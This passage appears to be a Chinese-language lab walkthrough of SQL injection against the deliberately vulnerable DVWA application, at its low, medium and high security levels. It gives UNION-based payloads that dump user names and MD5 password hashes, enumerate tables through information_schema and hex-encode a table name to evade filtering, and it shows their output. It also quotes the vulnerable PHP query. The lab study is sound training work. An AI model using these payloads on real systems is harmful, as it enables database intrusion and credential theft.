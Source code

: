 ```sql
'
1' union select group_concat(user_id,first_name,last_name,user), group_concat(password) COLLATE utf8_general_ci from users #
```

返回结果：

```
ID: 1' union select group_concat(user_id,first_name,last_name,user) ,group_concat(password) COLLATE utf8_general_ci from users #<br>First name: 1adminadminadmin,2GordonBrowngordonb,3HackMe1337,4PabloPicassopablo,5BobSmithsmithy<br>Surname: 5f4dcc3b5aa765d61d8327deb882cf99,e99a18c428cb38d5f260853678922e03,8d3533d75ae2c3966d7e0d4fcc69216b,0d107d09f5bbe40cade3de5c71e9e9b7,5f4dcc3b5aa765d61d8327deb882cf99
```

![image-20221113160057448.png](https://img.ghostliner.top/DUHM44.png)

#### 1.1.2. MEDIUM

```sql
1 and 1=1
```

数字型注入

字符串 users 改为 16 进制可绕过

```sql
1 or 1=1

1 union select 1,database()#

1 union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database()#

1 union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name=0x7573657273# --0x7573657273 hex(users)

1 union select group_concat(user_id,first_name,last_name,user),group_concat(password) COLLATE utf8_general_ci from users#
```

#### 1.1.3. HIGH

```sql
'
1' and '1'='1
```

字符型注入

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

LIMIT 1 限制了输出，可通过#将其注释掉，注释过程与 low 级别相同。
